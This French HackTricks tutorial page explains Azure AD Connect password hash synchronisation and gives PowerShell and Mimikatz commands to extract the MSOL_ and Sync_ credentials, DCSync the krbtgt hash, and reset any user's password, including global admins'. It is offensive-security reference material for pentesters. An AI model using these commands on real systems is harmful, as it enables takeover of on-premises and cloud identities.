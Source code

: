# Az - PHS - Synchronisation des hachages de mot de passe

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Informations de base

[Selon la documentation :](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) La **synchronisation des hachages de mot de passe** est l'une des méthodes de connexion utilisées pour réaliser une identité hybride. **Azure AD Connect** synchronise un hachage, du hachage, du mot de passe d'un utilisateur à partir d'une instance Active Directory locale vers une instance Azure AD basée sur le cloud.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

C'est la **méthode la plus courante** utilisée par les entreprises pour synchroniser un AD local avec Azure AD.

Tous les **utilisateurs** et un **hachage des hachages de mot de passe** sont synchronisés de l'AD local vers Azure AD. Cependant, les **mots de passe en clair** ou les **hachages originaux** ne sont pas envoyés à Azure AD.\
De plus, les groupes de sécurité **intégrés** (comme les administrateurs de domaine...) ne sont **pas synchronisés** vers Azure AD.

La **synchronisation des hachages** se produit toutes les **2 minutes**. Cependant, par défaut, **l'expiration du mot de passe** et **l'expiration du compte** ne sont **pas synchronisées** dans Azure AD. Ainsi, un utilisateur dont le **mot de passe local a expiré** (non modifié) peut continuer à **accéder aux ressources Azure** en utilisant l'ancien mot de passe.

Lorsqu'un utilisateur local souhaite accéder à une ressource Azure, l'**authentification a lieu sur Azure AD**.

**PHS** est requis pour des fonctionnalités telles que **la protection de l'identité** et les services de domaine AAD.

## Pivotement

Lorsque PHS est configuré, certains comptes **privilégiés** sont automatiquement **créés** :

* Le compte **`MSOL_<installationID>`** est automatiquement créé dans l'AD local. Ce compte reçoit un rôle **Comptes de synchronisation de répertoire** (voir [documentation](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) ce qui signifie qu'il a des **permissions de réplication (DCSync) dans l'AD local**.
* Un compte **`Sync_<nom du serveur ADConnect local>_installationID`** est créé dans Azure AD. Ce compte peut **réinitialiser le mot de passe de N'IMPORTE QUEL utilisateur** (synchronisé ou uniquement dans le cloud) dans Azure AD.

Les mots de passe des deux comptes privilégiés précédents sont **stockés dans un serveur SQL** sur le serveur où **Azure AD Connect est installé.** Les administrateurs peuvent extraire les mots de passe de ces utilisateurs privilégiés en clair.\
La base de données est située dans `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Il est possible d'extraire la configuration à partir de l'une des tables, l'une étant chiffrée :

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

La **configuration chiffrée** est chiffrée avec **DPAPI** et elle contient les **mots de passe de l'utilisateur `MSOL_*`** dans l'AD local et le mot de passe de **Sync\_\*** dans AzureAD. Par conséquent, compromettre ceux-ci permet de passer à l'AD et à AzureAD.

Vous pouvez trouver un [aperçu complet de la façon dont ces informations d'identification sont stockées et déchiffrées dans cette présentation](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Recherche du **serveur Azure AD Connect**

Si le **serveur où Azure AD Connect est installé** est joint à un domaine (recommandé dans la documentation), il est possible de le trouver avec :
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### Abus de MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Vous pouvez également utiliser [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) pour obtenir ces informations d'identification.
{% endhint %}

### Abus de Sync\_\*

En compromettant le compte **`Sync_*`**, il est possible de **réinitialiser le mot de passe** de n'importe quel utilisateur (y compris les administrateurs globaux)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Il est également possible de **modifier les mots de passe des utilisateurs uniquement dans le cloud** (même si c'est inattendu)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Il est également possible de récupérer le mot de passe de cet utilisateur.

{% hint style="danger" %}
Une autre option serait de **attribuer des autorisations privilégiées à un principal de service**, ce que l'utilisateur **Sync** a la **permission** de faire, puis **accéder à ce principal de service** comme moyen de privilège.
{% endhint %}

### Authentification unique transparente

Il est possible d'utiliser l'authentification unique transparente avec PHS, ce qui est vulnérable à d'autres abus. Vérifiez-le ici :

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Références

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
